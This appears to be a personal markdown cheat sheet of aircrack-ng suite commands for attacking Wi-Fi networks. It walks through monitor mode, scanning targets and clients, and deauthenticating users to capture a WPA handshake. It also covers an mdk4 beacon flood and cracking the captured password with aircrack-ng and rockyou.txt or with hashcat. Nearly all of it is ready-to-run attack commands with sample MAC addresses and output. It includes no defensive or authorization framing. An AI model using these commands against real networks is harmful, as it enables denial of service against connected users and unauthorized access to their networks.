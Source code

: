 
## cheapset active check
```
sudo iwconfig
```

check adapter information mode:
```
sudo airmon-ng start wlx00117f1b8884 
```
or 
```
sudo airmon-ng start wlan0mon
SUDO airmon-ng check kill
```


check again is active monitor mode
```
iwconfig
```

inkjection mode check:
```
sudo aireplay-ng --test wlan0
```




1. show all wifi info/interface:
sudo airodump-ng wlan0mon
2. focus only channel 6
sudo airodump-ng wlan0mon -c 6 
3. specify network address info
sudo airodump-ng wlan0mon -c 6 --bssid 
4. capture the file
sudo airodump-ng wlan0mon -c 6 --bssid -w capture
5. caputre range 5ghz
sudo airodump-ng wlan0mon -b a





specific wifi connect device information:
```
sudo airodump-ng --bssid 54:AF:97:C7:D0:06 -c 9 wlan0mon
sudo airodump-ng --bssid 54:AF:97:C7:D0:06 -c 9 --write capture wlan0mon
```
shows that
 54:AF:97:C7:D0:06  3A:D8:79:90:6C:23   -1    1e- 0      0        2             
 54:AF:97:C7:D0:06  A2:0B:6B:10:88:9C  -86    2e- 1      0      277             
 54:AF:97:C7:D0:06  52:D5:C7:80:2D:88   -1    1e- 0      0       21 
i choose - 1
 54:AF:97:C7:D0:06  52:D5:C7:80:2D:88

get handshaking file
```
sudo aireplay-ng --deauth 10 -a [bssid] -c [station] wlan0mon
sudo aireplay-ng --deauth 10 -a 54:AF:97:C7:D0:06 -c 52:D5:C7:80:2D:88 wlan0mon
```
wireshark check using : eapol


flood attack
```
sudo mdk4 wlan0mon b -c 1 -f wifi.lst
```

****************************************************************************
# Capture Traffic & Nearby Wifi Networks
Capture the packets and export it to your machine / show target network & connected device
```
sudo airodump-ng --bssid [target-bssid] -c [channel-id] --write [filename] [network-adapter]
sudo airodump-ng --bssid 34:60:F9:71:04:C2 -c 4 --write wifitest wlan0mon
```

# Deauth the users that are connected to the target network
 User will need to input the wifi password to connect again
```
sudo aireplay-ng --deauth [number-of-packets(>50)] -a [target-bssid] [network-adapter]
sudo aireplay-ng --deauth 200 -a 34:60:F9:71:04:C2 wlan0mon
```
to test in wireshark : eapol


file the DOS attack is underway, check on your airodump scan. You should see at the right top : WPA handshake: <mac address>. Once you have verified that, you can stop the replay attack and the airodump-ng scan.
```
sudo airodump-ng --bssid [code] -c 3 --write phonehotspot wlan0mon
```

#CRACK THE PASSWORD
using bruth force : 
```
sudo aircrack-ng -b 02:1A:11:FF:D9:BD -w /usr/share/wordlists/rockyou.txt ../Captures_1578171018678/NinjaJc01-01.cap
```
****************************************************************************

Attack a specific BSSID:
```
aircrack-ng -b 02:1A:11:FF:D9:BD -w wordlist.txt capture_file.cap
```

aircrack-ng capture.cap -J output
getoutput : cap2hccapx
hashcat -m 2500 output.hccapx wordlist.txt --force

*****************************************************
